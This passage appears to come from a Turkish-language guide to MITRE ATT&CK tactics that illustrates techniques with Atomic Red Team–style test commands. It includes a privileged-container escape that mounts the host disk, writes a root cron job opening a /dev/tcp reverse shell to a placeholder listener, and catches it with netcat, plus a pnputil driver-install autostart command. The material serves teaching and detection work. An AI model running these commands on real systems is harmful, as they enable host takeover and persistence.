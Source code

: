     ```bash
    if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
    ```
    
    ```bash
    sudo systemctl start docker
    ```
    
    ```bash
    if [ ! -d #{mount_point} ]; then mkdir #{mount_point} ; mount #{mount_device} #{mount_point}; fi
    echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > #{mount_point}#{cron_path}/#{cron_filename}
    echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
    echo -n "(hostname) " >> #{mount_point}#{cron_path}/#{cron_filename}
    echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
    echo "(id)\" >& /dev/tcp/#{listen_address}/#{listen_port} 0>&1'" >> #{mount_point}#{cron_path}/#{cron_filename}
    netcat -l -p #{listen_port} 2>&1
    ```
    
    ```bash
    if [ "" == "`which mount`" ]; then echo "mount Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install mount ; elif [ -n "`which yum`" ]; then sudo yum -y install mount ; fi ; else echo "mount installed"; fi
    ```
    
    ```bash
    capsh --print | grep cap_sys_admin
    ```
    
    ```bash
    if [ "`capsh --print | grep cap_sys_admin`" == "" ]; then echo "Container not privileged.  Re-start container in insecure state.  Docker: run with --privileged flag.  Kubectl, add securityContext: privileged: true"; fi
    ```
    
2. **Boot or Logon Autostart Execution (T1547)**
    
    Örnek komut:
    
    ```bash
    pnputil.exe /add-driver "#{driver_inf}"
    ```
    

---

## **Defense Evasion (TA0005)**

Savunma sistemlerinden kaçılır, tespit edilememek amaçlanır. Savunmadan kaçınma için kullanılan teknikler arasında güvenlik yazılımının kaldırılması/devre dışı bırakılması veya veri ve komut dosyalarının gizlenmesi/şifrelenmesi yer alır. Saldırganlar ayrıca kötü amaçlı yazılımlarını gizlemek ve maskelemek için güvenilir olarak tanımlanan süreçlerden yararlanır ve bunları kötüye kullanır.
